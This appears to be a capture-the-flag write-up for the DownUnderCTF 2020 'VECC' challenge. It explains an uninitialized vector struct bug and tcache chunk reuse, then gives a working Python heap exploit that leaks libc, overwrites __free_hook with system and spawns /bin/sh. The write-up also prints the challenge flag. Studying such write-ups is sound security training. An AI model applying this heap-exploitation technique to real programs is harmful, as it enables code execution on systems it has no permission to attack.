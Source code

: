 # DownUnderCTF 2020 - VECC
### Description
*I've been porting C++ vectors to C and I think I've finally hit a flawless implementation! I even made a cool shell for playing with them and everything!*

### Analysis
The program implements its own vector structure and gives us a shell to use all of its functions. This is how the struct looks like after reversing it with IDA:

```c
struct vec{
  char* buffer; //64 bit
  int size; //32 bit
  int capacity; //32 bit
}; //total size: 0x10 bytes

```

`capacity` is the total length of the buffer, while `size` is what we're actually using. The struct comes with a set of functions such as `append`, `clear`, `destroy`. When we want to go over the vector's capacity, `realloc` is called on `buffer` with the next power of 2. Very standard implementation.


### The Vulnerability
```c
int create_vecc(){
  int v0; // eax

  v0 = get_index();
  if ( v0 == -1 )
    return puts("Invalid!");
  *(&vectors + v0) = (vec *)malloc(0x10uLL);
  return puts("Done!");
}
```

Do not look for what's there, look for what's *not* there. None of the struct's members are initialized. How can this be exploited?

`vec` structs are obtained with malloc(0x10), the 0x20 bin. malloc recycles chunks that were already freed.

We can "initialize" the `vec` struct ourselves with the values we place in a chunk we free. Let's see what happens when we destroy a vector.

```c
int destroy_vecc(){
  // ~ snip ~
  v3 = *(&vectors + v0);
  if ( v2->buffer ) {
    free((void *)v2->buffer);
    v3 = *(&vectors + v1);
  }
  v2->buffer = 0LL;
  *(_QWORD *)&v2->size = 0LL; //this also clears capacity! Notice the QWORD cast.
  free(v3);
  *(&vectors + v1) = 0LL;
  puts("Done!");
}
```

The vector's buffer is freed and its size & capacity are set to 0. Note that even though the buffer was freed, it still lives in the heap. We just lose the first 8 bytes of it because they will be used by the tcache, as linked list pointer.

We can use this to set the `capacity` of a `vec` to whatever value we want, allowing us to perform an overflow on the heap. But we don't even need to do a real overflow. `buffer`, uninitialized, will point to the next free chunk in the 0x20 bin. If `capacity` were set to 0 the program would call realloc, giving us a new in-use chunk. With the overwritten `capacity` we can write on this free chunk no problem! This is a bit like having a surprise UAF.


### The Exploit
After figuring out the vulnerability it's really just a matter of sitting down with gdb and trying things until you're doing something that works. This is what I ended up with.

```python
# Create a vector and a 0x10 buffer
create_vecc(0)
append(0, 0x10, b'a'*8 + p32(0) + p32(0x102020))

# Free the buffer and then the vector struct.
destroy_vecc(0)

# Takes vector0's chunk. This is not useful.
create_vecc(1)

# Takes buffer0's chunk. This is useful.
# vector2 will have 0x102020 capacity, because it takes the freed buffer chunk from vec 0.
# Also, the buffer member points to the next free 0x20 bin chunk.
create_vecc(2)

# This means we can take control of the tcache, or of the content of the next 0x20 chunk we allocate. 
# In this case, taking control of the tcache is just a side effect.
# What I'm really trying to do is defining the next vec struct.
# buffer = 0x602030
# size = 8
# capacity = [big number]
# Remember that append_vecc uses malloc to store the input.
# Do not use the 0x20 bin for it! That would defeat the point. Here I am using the 0x30 bin
append(2, 0x20, p64(0x602030) + p32(8) + b'a'*0x14)

# vec3 struct is initialized just like we wanted it.
# 0x602030 is on the .bss segment, just before the list of vec structs at 0x602040.
# 0x602030 contains a pointer to the libc's stdin struct, which means we can leak libc.
create_vecc(3)
show_vecc(3)
leak = u64(p.recv(8))
libc_elf.address = leak - libc_elf.sym['_IO_2_1_stdin_']
log.info(f'Libc: {hex(libc_elf.address)}')

# extend vec3 and make a fake vector on 0x602038, pointing to __free_hook - 8.
# Add the fake vec to the list of vectors, index 1
append(3, 0x40, p64(libc_elf.sym['__free_hook'] - 8) + p32(0) + p32(0x10000) + p64(0x602038) + b'a'*0x28)

# Overwrite free_hook. This input string will be placed in a temporary buffer, so we send /bin/sh\x00 first,
# And when free is called on the temporary buffer it will be taken as parameter to system.
append(1, 0x20, b'/bin/sh\x00' + p64(libc_elf.sym['system']) + b'a'*0x10)
```

### The Flag
DUCTF{h@v_2_z3r0_ur_all0ca710n5}
